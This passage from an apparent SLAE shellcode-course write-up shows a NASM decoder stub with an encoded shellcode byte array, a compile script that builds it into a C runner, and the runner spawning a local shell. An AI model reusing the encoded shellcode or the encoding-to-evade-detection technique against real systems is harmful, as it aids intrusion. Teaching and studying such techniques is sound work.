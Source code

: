 The encoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/encode.rb">here</a>.

### Decoding and Execution
I built on top of <a href="https://twitter.com/SecurityTube">Vivek\'s</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ls
decode.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ cat decode.nasm | grep 0xaa
  EncodedShellcode: db 0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ./super-compile.sh decode
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ls
decode  decode.nasm  decode.o  shellcode-decode  shellcode-decode.c  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment4$ ./shellcode-decode
Shellcode Length: 62
$ exit
skawa@ubuntu:~/Desktop/code/assignment/assignment4$
~~~
